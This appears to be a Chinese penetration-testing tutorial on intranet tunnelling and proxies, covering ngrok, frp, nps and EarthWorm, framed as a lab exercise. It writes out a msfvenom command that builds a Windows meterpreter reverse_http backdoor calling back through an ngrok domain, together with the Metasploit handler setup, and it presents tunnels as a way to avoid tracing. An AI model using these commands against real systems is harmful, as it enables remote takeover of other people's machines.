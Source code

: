 # 内网安全——隧道穿透漫游与代理

## Sock代理测评

1. 旨在代理连接肉鸡后实现本地渗透肉鸡网络架构。
2. 代理工具
   - Linux：Proxychains
   - Windows：Sockscap Proxifier

3. 穿透平台：

   - [ngrok官网](https://www.ngrok.cc)

     [ngrok下载](https://www.ngrok.cc/download.html)

   - [fatedier](https://github.com/fatedier/frp/releases)

   - [ehang-io](https://github.com/ehang-io/nps/releases)

   - [EarthWorm](http://www.rootkiter.com/EarthWorm/)

4. 穿透工具的优点：穿透加密数据，中间平台，防追踪，解决网络问题

## 内网穿透Ngrok平台测评-两个独立内网通讯上线

1. 实验环境：两个不同的内网(有网络)实现穿透控制

   - 注册-购买-填写-确认http://www.ngrok.cc/

     - 协议：http
     -  本地端口：192.168.46.131:80

   - 测试：内网1执行后门-免费主机处理-内网2监听-内网2接受器

     ``` powershell
     ./sunny clientid 7e543d3efc295766 #控制端连接Ngrok的服务器
     
     msfvenom -p windows/meterpreter/reverse_http lhost=域名url lport=80 -f exe -o test.exe
     
     use exploit/multi/handler
     
     set payload windows/meterpreter/reverse_http
     
     set lhost 192.168.46.131
     
     set lport 80
     
     exploit
     ```

## 内网穿透Frp自建跳板测评-两个独立内网通讯上线

1. 自行搭建，方便修改，成本低，使用多样化

   - 服务端-下载-解压-修改-启动（阿里云主机记得修改安全组配置出入口）

     - 服务器修改配置文件frps.ini：
